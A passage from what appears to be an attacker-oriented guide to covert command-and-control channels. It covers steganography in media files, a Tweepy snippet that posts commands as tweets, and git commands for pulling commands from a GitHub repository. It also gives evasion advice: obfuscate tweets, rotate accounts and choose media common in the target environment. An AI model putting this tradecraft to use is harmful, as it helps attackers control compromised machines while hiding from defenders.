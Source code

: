         Recommendations:
            Use high-resolution images to avoid noticeable changes.
            Vary the types of images used to avoid detection patterns.

    Audio/Video Steganography:
        Description: Embedding C2 instructions or data within audio or video files, leveraging their complex data structures.
        Tools: StegoSuite, DeepSound.
        Example:
            Use a tool like DeepSound to embed text within an audio file and extract it later.
        Recommendations:
            Use audio or video files common in the target environment.
            Keep the size of the hidden data small to avoid altering the media file quality noticeably.

E. Using Social Media and Public Platforms

Attackers can use public platforms like Twitter, GitHub, or Pastebin for C2 communication. Commands and data can be hidden within comments, posts, or files hosted on these services.
Techniques and Tools:

    Twitter as a C2 Channel:
        Description: Embedding C2 commands within tweets, using hashtags, or direct messages.
        Tools: Python Tweepy (Twitter API wrapper), custom scripts.
        Example:

        python

    import tweepy

    # Authentication and setup
    auth = tweepy.OAuthHandler('consumer_key', 'consumer_secret')
    auth.set_access_token('access_token', 'access_token_secret')
    api = tweepy.API(auth)

    # Send a command in a tweet
    api.update_status("Command: #RunThisCommand")

    Recommendations:
        Use obfuscated language or code in tweets to avoid detection.
        Regularly change Twitter accounts to avoid tracking.

GitHub/Gist for C2:

    Description: Hosting malicious scripts or commands on GitHub repositories or Gists. The compromised host pulls updates from the repository.
    Tools: Git, curl, custom scripts.
    Example:

    bash

        # Clone or pull from a GitHub repository
        git clone https://github.com/username/repo.git
        # Pull updates
        git pull origin main
